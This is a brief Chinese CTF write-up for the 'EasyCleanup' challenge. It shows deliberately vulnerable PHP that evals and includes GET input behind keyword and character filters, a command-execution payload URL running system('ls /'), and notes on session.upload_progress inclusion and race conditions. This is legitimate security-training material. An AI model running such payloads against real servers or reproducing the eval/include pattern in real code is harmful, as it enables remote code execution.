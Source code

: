 #PHP

```php
<?php
if (!isset($_GET['mode'])) {
    highlight_file(__file__);
} else if ($_GET['mode'] == "eval") {
    $shell = isset($_GET['shell']) ? $_GET['shell'] : 'phpinfo();';
    if (strlen($shell) > 15 | filter($shell) | checkNums($shell)) exit("hacker");
    eval($shell);
}


if (isset($_GET['file'])) {
    if (strlen($_GET['file']) > 15 | filter($_GET['file'])) exit("hacker");
    include $_GET['file'];
}


function filter($var)
{
    $banned = ["while", "for", "\$_", "include", "env", "require", "?", ":", "^", "+", "-", "%", "*", "`"];

    foreach ($banned as $ban) {
        if (strstr($var, $ban)) return True;
    }

    return False;
}

function checkNums($var)
{
    $alphanum = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $cnt = 0;
    for ($i = 0; $i < strlen($alphanum); $i++) {
        for ($j = 0; $j < strlen($var); $j++) {
            if ($var[$j] == $alphanum[$i]) {
                $cnt += 1;
                if ($cnt > 8) return True;
            }
        }
    }
    return False;
}

```

```url
?mode=eval&shell=system('ls /');
```

发现 nssctfasdasdflag

#### 本题考点

1. 利用 session.upload_progress 进行文件包含
2. 条件竞争

具体参考
[[第五空间 2021]EasyCleanup_ph0ebus 的博客-CSDN 博客](https://blog.csdn.net/qq_46266259/article/details/128867195)

php session.upload_progress 通用利用脚本
https://www.nssctf.cn/note/set/2588
